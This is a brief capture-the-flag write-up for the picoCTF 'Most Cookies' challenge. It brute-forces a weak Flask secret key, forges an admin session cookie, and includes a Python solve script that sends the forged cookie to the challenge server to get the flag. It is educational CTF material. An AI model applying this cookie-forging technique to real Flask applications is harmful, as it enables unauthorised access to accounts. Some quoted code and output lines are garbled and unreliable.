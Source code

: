 # Most_Cookies
###### tags: `web` `ctf` `security` `vuln` `ペネトレ` `cookie` `jwt` `python` `flask`

i received a certain file.
i found suspicious line.
```python=
app.secret_key = random.choice(cookie_names) for i in cookie_names:
```

this means that one of cookie_names is secret_key.
so length of cookie_names is only 28.

hence we can allow brute-force.

let's go ahead.

```
$ flask-unsign --unsign -w ./wordlist.txt --cookie < cookie.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
```

```
$ ./flask_session_cookie_manager3.py encode -s 'fortune' -t '{"very_auth":"admin"}'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZBBjOg.M6F3uM1ohKprwQcwY-zyA8A28fI
```

```python=
# solve.py
import requests
import jwt
import re
encoded_jwt = "eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZBBjOg.M6F3uM1ohKprwQcwY-zyA8A28fI"
#urlencode the jwt
s = requests.Session() 
cookie = {'session': encoded_jwt}
res = s.get('http://mercury.picoctf.net:65344', cookies=cookie)
res = s.get('http://mercury.picoctf.net:65344/display', cookies=cookie)
pettern = "picoCTF{.*}"
te = res.text
for i in te.split():
    m = re.search(pettern, i)
    if m:
        print(m.group(0))
```

```
$ python solve.py         
picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}
```